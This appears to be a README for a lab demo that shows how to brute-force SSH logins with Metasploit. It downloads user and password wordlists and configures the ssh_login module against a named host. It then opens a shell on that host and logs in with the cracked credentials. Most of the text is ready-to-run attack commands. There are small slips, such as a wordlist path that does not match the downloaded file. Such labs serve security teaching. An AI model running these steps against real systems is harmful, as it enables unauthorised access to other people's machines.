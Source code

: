 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 


Downloading Dictionary Files
------------

First we need some get our hands on some basic text files containing a list of commonly used usernames and passwords. These links are subject to change and for the sake of the lab/demo it might just be easier to clone the git repo with `git clone https://github.com/sillihkram/Bruteforcing-SSH.git`.

Download a list of common users & weak passwords
    
    curl https://github.com/sillihkram/Bruteforcing-SSH/raw/main/passwords.txt.gz | gunzip > /tmp/passwords.txt
    curl https://github.com/sillihkram/Bruteforcing-SSH/raw/main/users.txt > /tmp/users.txt

Just so you are familiar, take at the content and format of the files 

    head /tmp/passwords.txt
    head /tmp/users.txt



# Installing Metasploit
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate



# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploits modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success
    set pass_file /tmp/password.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'test:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l test
